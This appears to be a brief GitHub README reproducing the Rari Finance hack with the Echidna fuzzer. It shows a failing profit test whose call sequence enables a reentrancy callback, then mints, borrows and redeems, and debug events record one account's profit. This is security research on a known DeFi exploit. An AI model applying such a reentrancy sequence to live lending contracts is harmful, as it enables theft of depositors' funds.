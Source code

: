 # Reproduction of Rari Finance hack

```
testProfit(): failed!💥
  Call sequence:
    setReentrancyEnabled(true)
    mint(5,10089325332519370949262917519849428342404732088146691233195543578618300570336)
    setReentrancyCallback(4)
    borrow(2,1164710473815707741)
    redeem(2,995200615491)
    testProfit()

Event sequence:
    Panic(1): Using assert
    Debug(«account0Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account1Profit», 1002263350696681541) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account2Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72

```

![rari-hack-result](https://github.com/rappie/echidna-rari-hack/assets/1430820/374c2c83-b33a-4099-b6f6-513e281df33c)
